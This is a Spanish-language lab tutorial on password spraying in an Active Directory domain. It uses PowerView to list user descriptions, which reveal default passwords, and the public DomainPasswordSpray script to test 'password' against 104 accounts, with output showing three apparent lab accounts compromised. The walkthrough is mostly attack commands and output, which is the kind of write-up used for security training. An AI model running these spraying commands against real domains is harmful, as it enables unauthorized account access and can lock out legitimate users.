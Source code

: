 ```yaml
---
icon: sprinkler
---
```


# Password Spraying

Esta tecnica consiste en ser capaces de coger una contraseña y propagarla por todos los usuarios del dominio para saber que usuarios coinciden y tienen esa contraseña asociada, pero es una tecnica muy intrusiva y en entornos reales se hay llegado a utilizar por equipos de `Red Team` y han llegado a bloquear todas las cuentas de usuarios ya que dependiendo de como este configurado tendra un numero limitado de intentos.

Primero para poder identificar alguna contraseña podremos ver las descripciones que en algunos casos puede ser muy importante para poder ver si alguno se dejo la ocntraseña puesta en la descripcion y realizar la tecnica.

```powershell
cd .\Desktop
. .\new_powerview.ps1
Get-NetUser | select name,description
```

Info:

```
name              description
----              -----------
Administrator     Built-in account for administering the computer/domain
Guest             Built-in account for guest access to the computer/domain
krbtgt            Key Distribution Center Service Account
empleado1
empleado2
Maurine Bibby
Henrie Kaleena
Ali Alix
Saree Dayna
Lonnie Betti      Replication Account
Abbi Jocelyn
Arlie Gunilla
Adorne Bridgette  Shared User
Roanna Bidget
Aubry Carolan
Ermina Hatti
Angelika Shelly   Replication Account
Barby Min
Jannel Emalia
Audre Maible
Kizzie Kacy
Andreana Shea
Emeline Shirline
Brynne Kenon
Myrtia Agatha
Ernaline Lowell
Gerri Kathi
Goldarina Nicki
Avril Cheri
Bobette Glenn
Joanie Karine
Gwenneth Gilly
Saidee Kaye
Cynthie Rori      Replication Account
Cristabel Melony
Mela Jacquetta
Jennifer Gerry    Shared User
Ginevra Michel
Arabella Norry
Colly Katey
Marsha Jordan
Britni Henrieta
Alejandrina Faye
Philis Bertha
Harriett Daron
Ardine Farra
Robena Prudence
Pearl Judye
Riva Nellie
Jobina Aleta
Fayina Hyacinth
Loretta Jerrine
Peta Adelind
Ophelie Odele
Cybil Alica
Shay Siana
Halette Martelle
Audrey Hedwiga
Betsey Stephine
Demetris Daveta
Lexy Rosaline
Ilyssa Nevsa
Denice Freda
Georgia Marie-Ann
Benny Alikee
Sandye Leodora
Germain Gavrielle Shared User
Milicent Gracie
Meg Carolee
Linn Evaleen
Mirna Annice
Diana Sharai
Deeann Amalita
Kettie Shanta
Estelle Kelli
Guenna Jessi      Shared User
Allissa Lezlie
Crissie Deena
Olga Rhoda
Anna Costanza
Corie Josie       New User ,DefaultPassword (password)
Evy Britta
Jaime Luise
Gennifer Cleo
Colly Elfie
Gill Kellie
Carmon Leoine
Farrand Inna
Donnie Lari
Millie Hanny
Sarita Alisha
Rycca Jacinta
Levin Bab
Celle Sherye      New User ,DefaultPassword (password)
Chloris Ilysa
Kelley Happy
Darsey Jasmine
Ebba Nicoline
Geneva Lorrin
Joellyn Pippa
Renelle Jacynth
Sarah Rhoda
Annice Mable      My password is Passw0rd5
Aimil Evangelia   Shared User
```

Por lo que vemos, estamos viendo a 2 usuarios bastante interesantes que dicen tener la contraseña por defecto y esta misma esta entre parentesis (`password`).

Por lo que vamos a utilizar un script publico de un repositorio de `GitHub` para realizar esta tecnica que estara en el siguiente link:

URL = [DomainPasswordSpray GitHub](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

Copiaremos el script y lo pegaremos en un archivo del equipo de `empleado1` llamado `passwordspray.ps1`.

Una vez realizado todo eso en el `PowerShell` pondremos lo siguiente.

```powershell
. .\passwordspray.ps1
```

Con esto ya habremos cargado el script.

> NOTA

En tal caso de que diera un error puede ser por la linea `261` la cual habra que comentar de la siguiente forma:

```powershell
# Write-Host "${Message}: Waiting for $($Seconds/60) minutes. $($Seconds - $Count)"
```

Y lo volveremos a ejecutar.

Una vez cargado el script, tendremos que hacer lo siguiente para realizar la tecnica, pero antes tendremos que generar el archivo de usuarios para poder utilizarla para la tecnica de la siguiente forma.

```powershell
Get-NetUser | Select-Object -ExpandProperty name | Out-File C:\Users\empleado1\Desktop\users.txt
```

Esto nos habara generado un archivo en el escritorio algo asi:

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Y ahora vamos a probar como vimos anteriormente si alguno mas de esos 2 usuarios tiene la contraseña por defecto llamada `password`:

```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password "password"
```

Info:

```
[*] Using .\users.txt as userlist to spray with
[*] Warning: Users will not be checked for lockout threshold.
[*] The domain password policy observation window is set to 1 minutes.
[*] Setting a 1 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 104 accounts?
[Y] Yes  [N] No  [?] Ayuda (el valor predeterminado es "Y"):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password password against 104 users. Current time is 8:11
[*] SUCCESS! User:ernaline.lowell Password:password
[*] SUCCESS! User:corie.josie Password:password
[*] SUCCESS! User:celle.sherye Password:password
[*] Password spraying is complete
```

Y vemos que nos esta sacando las contraseñas de dichos usuarios, pero si lo probamos muchas veces puede ser que bloqueemos las cuentas de usuarios ya que los que no estan coincidiendo tengan un limite de intentos y se bloqueen por lo que hay que tener mucho cuidado con esto.
